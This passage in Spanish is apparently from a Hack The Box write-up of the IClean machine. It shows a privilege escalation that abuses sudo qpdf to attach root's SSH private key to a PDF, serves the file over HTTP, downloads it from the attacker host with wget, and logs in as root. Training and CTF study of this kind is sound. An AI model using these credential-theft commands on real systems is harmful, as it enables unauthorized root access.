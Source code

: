 Acción: como podemos ejecutar como root cualquier acción con `sudo qpdf` nos creamos un archivo pdf con la clave privada de root para poder conectarnos vía ssh como usuario de altos privilegios en la máquina objetivo.

```bash
sudo qpdf --empty --add-attachment /root/.ssh/id_rsa -- /tmp/privesc
python3 -m http.server 8081
```

Acción: desde  nuestra máquina atacante nos descargamos el archivo `id_rsa` con la clave privada del usuario root.

Resultado:

```bash
wget 10.10.11.12:8081/privesc
mv privesc privesc.pdf
open privesc.pdf 
```

Acción: al abrir el archivo pdf en la sección de *adjuntos* tenemos la copia del archivo `id_rsa`

![Captura](./Imágenes/qpdf_1.png)

![Captura](./Imágenes/qpdf_2.png)

Acción: pegamos el contenido de la clave en la máquina objetivo, le damos permisos de solo lectura y escritura al propietario. 

```bash
nano id_rsa
chmod 600 id_rsa
```

Acción:

```bash
ssh -i id_rsa root@localhost
cd /root
cat root.txt
```

Resultado:

```bash
<Flags_HTB>
```


---

# Conclusión — Guía de explotación: IClean

Resumimos nuestra explotación de la máquina **IClean** (Hack The Box) en los siguientes puntos:

## Resumen rápido

- Identificamos los servicios activos: **SSH (22)** y **HTTP (80)**. El servidor web corre con Apache y muestra que está servido por **Werkzeug/Python** — pista de uso de **Flask**.
    